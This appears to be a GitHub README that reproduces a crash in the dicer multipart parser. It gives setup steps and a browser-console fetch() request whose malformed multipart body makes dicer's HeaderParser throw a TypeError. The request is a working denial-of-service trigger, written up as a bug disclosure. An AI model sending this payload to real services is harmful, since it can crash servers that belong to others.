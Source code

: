 # Setup

1) npm install

# Reproduction

1) npm run start
2) Open the application on your browser (problably at http://localhost:3000/)
3) Open the developer console on your browser
4) Run the following code:
```
fetch('', {
  method: 'POST',
  headers: {
    ['content-type']: 'multipart/form-data; boundary=----WebKitFormBoundaryoo6vortfDzBsDiro',
    ['content-length']: '145',
    host: '127.0.0.1:3000',
    connection: 'keep-alive',
  },
  body: '------WebKitFormBoundaryoo6vortfDzBsDiro\r\n Content-Disposition: form-data; name="bildbeschreibung"\r\n\r\n\r\n------WebKitFormBoundaryoo6vortfDzBsDiro--'
});
```

The error is problably going to be something like this:
```
this.header[h][this.header[h].length - 1] += lines[i];
                                    ^
TypeError: Cannot read properties of undefined (reading 'length')
```

This is from dicer HeaderParser.